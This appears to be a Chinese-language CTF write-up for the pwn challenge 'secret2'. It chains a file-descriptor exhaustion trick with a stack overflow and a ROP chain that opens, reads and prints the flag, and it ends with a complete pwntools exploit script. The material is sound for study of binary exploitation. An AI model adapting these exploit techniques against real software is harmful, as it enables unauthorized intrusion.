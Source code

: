 # Secret2

### 0x1 分析

看一下安全保护：

```shell
[*] './secret2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

没有CANARY，而且地址固定。

`main()`

```c
void __fastcall __noreturn main(__int64 a1, char **a2, char **a3)
{
  char ll; // [rsp+10h] [rbp-120h]
  char rand; // [rsp+18h] [rbp-118h]
  char name; // [rsp+20h] [rbp-110h]
  int count; // [rsp+128h] [rbp-8h]
  int i; // [rsp+12Ch] [rbp-4h]

  count = 0;
  my_init();
  self(&name);
  for ( i = 0; i <= 9999; ++i )
  {
    my_write("#           Secret: _____            #", 20);
    get_rand(&rand);
    get_long(&secret);
    if ( !memcmp(&rand, &secret, 8uLL) )
      ++count;
    else
      puts("#================no==================#");
    if ( count > 233 )
    {
      close(0);
      stop(&name);
    }
    puts("#====================================#");
    printf("#  GOOD JOB %4d TIMES TO GAME OVER  #\n", (unsigned int)(233 - count));
    puts("#====================================#");
  }
  puts("Good job 2333-tryto-cat/flag");
  system("/bin//sh");
  exit(0);
}
```

首先会输入名字，然后循环``9999`次来输入`secret`，并通过`get_rand()`取得一个随机数和`secret`比较，如果相同，计数器加一。如果计数器达到`233`，就会关闭`stdin`，然后进入`stop`函数。**如果`9999`次都没有使计数器达到`233`，就会执行`system("/bin//sh");`，但是远程环境这个调用失败了。**

先看一下`get_rand()`

```c
ssize_t __fastcall get_rand(void *rand)
{
  int v1; // eax

  memset(rand, 0, 8uLL);
  v1 = open("/dev/urandom", 0);
  return read(v1, rand, 8uLL);
}
```

这里打开了`/dev/urandom`，但是却没有关闭，这个程序就会循环打开这个文件，而且每次都不关闭。

这里补充一点，就是可以使用 `ulimit -a` 查看用户使用最大文件限制数，一般非`root`用户默认是`1024`:

```shell
➜  secret2 ulimit -a
-t: cpu time (seconds)              unlimited
-f: file size (blocks)              unlimited
-d: data seg size (kbytes)          unlimited
-s: stack size (kbytes)             8192
-c: core file size (blocks)         0
-m: resident set size (kbytes)      unlimited
-u: processes                       7779
-n: file descriptors                1024					<-----here
-l: locked-in-memory size (kbytes)  16384
-v: address space (kbytes)          unlimited
-x: file locks                      unlimited
-i: pending signals                 7779
-q: bytes in POSIX msg queues       819200
-e: max nice                        0
-r: max rt priority                 0
-N 15:                              unlimited
```

如果文件打开数目达到上限，就会在下一次 `open(“/dev/urandom”, 0);` 就会失败，导致 `read(v1, rand, 8uLL);` 读了空数据，我们只需要输入 `\0` 即可通过 `memcmp` 的验证。

然后使计数器就会达到`233`，进入`stop()`，

```c
int __fastcall stop(const void *name)
{
  char s[8]; // [rsp+14h] [rbp-Ch]
  int v3; // [rsp+1Ch] [rbp-4h]

  strcpy(s, "Good Night~");
  memcpy((char *)&v3 + 3, name, 0x100uLL);
  puts("#====================================#");
  puts("#             GAME OVER              #");
  puts("#====================================#");
  my_write("#        BYE BYE~                    #", 18);
  puts(s);
  return puts("@====================================@");
}
```

这里有一个栈溢出可以利用。通过在`name`中写入ROP链，来达到获取`flag`的目的。

但是注意一点，这个时候`stdin`已经关闭，不会输出东西了。所以我们不能通过`system('/bin/sh')`来拿`shell`。

可以构造`open("./flag", 0); read(0, addr, 0x100); puts(addr)`来得到`flag`。

**补充：因为 `close(0)`， `open(“./flag”, 0)` 返回的 `fd` 将为 `0`。**

#### 关键步骤调试

断点断在`stop()`的`memcpy()`处，准备栈溢出：

<img src="截屏2020-05-24上午2.29.36.png" alt="截屏2020-05-24上午2.29.36" style="zoom:50%;" />

单步执行后：栈空间被修改。

<img src="截屏2020-05-24上午2.32.19.png" alt="截屏2020-05-24上午2.32.19" style="zoom:50%;" />

### 0x2 EXP

```python
#! /usr/bin/python
#-*- coding: utf-8 -*-
from pwn import *
 
context.terminal = ['tmux', 'splitw', '-h']
context(arch = 'amd64' , os = 'linux', log_level='debug')

p = process('./secret2')
elf = ELF('./secret2')
# p = remote('183.129.189.60', 10052)
pop_rdi_ret = 0x000000000040161b
pop_rsi_r15_ret = 0x0000000000401619
flag = 0x00000000004021df

def debug(p, cmd):
  gdb.attach(p, cmd)

def name(payload):
  p.sendafter("What's your name?", payload)

def passwd():
  p.sendafter('Secret:', '\0')

# gdb.attach(p, '\n')
# pause()

# payload = 'a' * 9
# payload += p64(pop_rdi_ret) + p64(flag) + p64(pop_rsi_r15_ret) + p64(0) + p64(0) + p64(elf.plt['open'])
# payload += p64(0x40160E)+ p64(0) + p64(0) + p64(1) + p64(elf.got['read']) + p64(elf.bss() + 0x500) + p64(0) + p64(0)
# payload += p64(0x4015F8)
# payload += '\x00' * 0x38
# payload += p64(pop_rdi_ret) + p64(elf.bss()  + 0x500) + p64(elf.plt['puts'])

payload = "a" * 0x9
payload += flat([pop_rdi_ret, 0x4021DF, pop_rsi_r15_ret, 0, 0, elf.plt['open']])
payload += flat([0x40160E, 0, 0, 1, elf.got['read'], 0, elf.bss() + 0x500, 0x100])
payload += flat([0x4015F8, 0, 0, 0, 0, 0, 0, 0])
payload += flat([pop_rdi_ret, elf.bss() + 0x500, elf.plt['puts']])


name(payload)
try:
  for i in range(9999):
    passwd()
  p.interactive()

except:
  p.interactive()
  p.close()
```

### 0x3 Reference

[Play with file descriptor(Ⅲ)](http://m4x.fun/post/play-with-file-descriptor-3/)